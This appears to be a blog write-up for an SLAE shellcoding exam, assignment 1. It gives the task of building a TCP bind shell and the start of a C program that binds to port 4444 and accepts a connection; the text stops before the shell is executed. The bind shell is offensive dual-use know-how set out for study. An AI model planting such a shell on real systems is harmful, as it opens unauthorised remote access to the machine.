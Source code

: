 # Assignment 1 - TCP Bind Shell

Hello! Thanks for stopping by! I'm just sipping on an incredible V60-pourover of some **Monticello Sunrise** (_Medium, Ethiopia_) roasted by my great friends over at CommonWealth Joe's coffeeshop. I've had a great time taking SecurityTube's course, Securitytube Linux Assembly Expert (SLAE). It's refreshed a lot of what I've forgotten, as well as taught me a lot about hand-writing shellcode in x86 assembly. And now it's time for me to prove my worth!

The exam is an open format that requires the test taker to blog each answer of the 7-part test. The instructor feels that this allows the security community to better develop in the areas being blogged about. Originality is a must when it comes to this, so I've strived to not view any other posts prior to posting my own. So, without further ado, let's jump in!

## Problem Statement

* Create a Shell_Bind_TCP shellcode
  - Binds to a port
  - Execs Shell on incoming connection
* Port number should be easily configurable

## Forming a Base

Let's start off by writing our own C program to do what we want:

**_assignment1.c_**

```c
#include <unistd.h> // dup2, execve
#include <netinet/in.h> // socket structures and constants

#define PORT 4444

int main() {
  int sockfd, clientfd;
  struct sockaddr_in bind_addr;


  // CREATE SOCKET
  // create a new socket  (ipv4, tcp)
  sockfd = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);


  // BIND TO ADDRESS
  // create the address to bind to
  bind_addr.sin_family = AF_INET; // ipv4
  bind_addr.sin_port = htons(PORT); // port in the correct endianness
  bind_addr.sin_addr.s_addr = INADDR_ANY; // NULL (0.0.0.0)

  // Bind to the specified address (0.0.0.0:4444)
  bind(sockfd, (struct sockaddr*) &bind_addr, sizeof(bind_addr));


  // LISTEN FOR CONNECTIONS
  // Listen for connections on this tcp socket
  listen(sockfd, 0);


  // ACCEPT CONNECTIONS
  // Accept connection on listening socket and save the new socket fd (client)
  clientfd = accept(sockfd, NULL, NULL);


  // CHANGE STD FILE DESCRIPTORS
  // Overwrite old stdin, stdout, stderr fd's with the client socket fd
```